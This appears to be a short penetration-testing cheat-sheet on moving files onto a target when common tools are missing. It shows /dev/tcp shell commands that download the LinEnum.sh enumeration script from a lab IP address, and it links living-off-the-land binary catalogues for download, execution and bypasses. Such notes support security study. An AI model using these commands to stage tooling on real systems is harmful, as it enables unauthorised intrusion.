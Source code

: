 

## /dev/tcp
none of the well-known file transfer tools are available - use /dev/tcp device for simple file downloads 


connecting to the target webserver
```shell-session
exec 3<>/dev/tcp/10.10.10.32/80
```
http get request 
```shell-session
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
print the response
```shell-session
cat <&3
```

##  LOLBAS
To search for functions (such as upload, download, etc), search /download, /upload, /etc

Living Off The Land Binaries 
- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses


